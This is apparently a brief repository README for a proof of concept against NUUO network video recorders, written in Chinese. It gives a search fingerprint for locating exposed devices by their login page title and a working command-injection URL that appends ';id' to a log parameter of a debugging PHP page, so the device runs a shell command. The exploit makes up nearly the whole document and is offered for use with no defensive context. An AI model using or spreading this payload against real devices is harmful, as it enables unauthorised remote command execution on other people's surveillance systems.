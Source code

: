 # NUUO_RCE_POC
NUUO摄像头远程命令执行漏洞验证脚本
# 指纹信息
title="Network Video Recorder Login"
# POC
URL + /__debugging_center_utils___.php?log=;id


